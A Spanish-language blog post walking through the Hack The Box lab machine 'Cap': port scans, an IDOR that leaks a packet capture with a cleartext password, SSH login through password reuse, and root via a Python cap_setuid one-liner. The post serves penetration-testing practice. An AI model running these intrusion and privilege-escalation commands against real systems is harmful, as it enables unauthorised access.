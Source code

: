 ```yaml
---
layout: post
title: Cap
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/Cappeq.png
thumbnail-img: /assets/img/Cappeq.png
share-img: /assets/img/Cap.png
author: Elmili72
---
```


## Escaneo general de puertos

Primero empezamos un escaneo general de puertos, para ver como de expuesta está nuestra víctima.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vv -n -Pn 10.10.10.245 -oG allports
Host is up, received user-set (0.11s latency).
Scanned at 2025-06-09 12:12:40 CEST for 14s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## Escaneo específico de puertos

Una vez tenemos los puertos realizamos un escaneo más específico para ver las versiones de los puertos que están expuestos. En este caso, tenemos los puertos 21 (FTP), 22 (SSH) y 80 (HTTP).

```bash
$ nmap -sCV -p21,22,80 10.10.10.245 -oN target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 12:15 CEST
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento servicio web

Hacemos un reconocimiento básico de la web con *Whatweb*, y vemos que no hay mucha información útil.

```bash
$ whatweb http://10.10.10.245
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

Entramos a la IP víctima y entramos en un Dashboard de un usuario llamado Nathan, tiene un menú pero no es funcional.

![image](https://github.com/user-attachments/assets/3306e2e5-ac0c-4a74-933e-955119736955)

Dos apartados del Dashboard son IP Config y Network Status, pero tampoco nos valen de mucho, más que para tener más información de que está corriendo en cada puerto y ver que no estamos encerrados en otro equipo por el "IP Config".

![image](https://github.com/user-attachments/assets/be94ffe6-7cd6-4c7f-86ee-4febd54b8d3d)

## Explotación

Si nos fijamos en la URL, antes ponía 1. Esto nos lleva a pensar que podemos explotar un IDOR (Insecure Direct Object Reference) y vemos que nos aparecen cargados unos paquetes de red que podemos bajarnos como una captura de wireshark.

![image](https://github.com/user-attachments/assets/9f889a37-8467-440b-9d63-ae5753e8bd48)

Buscamos un poco el tráfico grabado y vemos una password en texto claro. Viendo el código de Login serguramente nos permita entrar al servicio FTP, pero podemos confiar en que hayan hecho reutilización de credenciales y probar directamente con el SSH.

![image](https://github.com/user-attachments/assets/c30247ef-9e05-433b-abfe-f6827b6bdabe)

### Intrusión

Efectivamente, nos vale esa misma contraseña para entrar al SSH directamente y conseguimos nuestra flag de user.

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password:
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
1618b0******486488031
```

## Post-Explotación

### Escalada de Privilegios

De nuevo y como siempre, nuestra parte favorita. Una escalada sencilla pero que viene bien para asentar conocimientos en el tema de exploitación de *Capabilities*. Muy parecido a un binary abusing con *Sudo*.

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Rápidamente al encontrar "/usr/bin/python3.8" vamos a nuestro amigo *GTFOBins*. Y conseguimos nuestra flag de root sin ningún problema.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
382dab******41ab640d
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
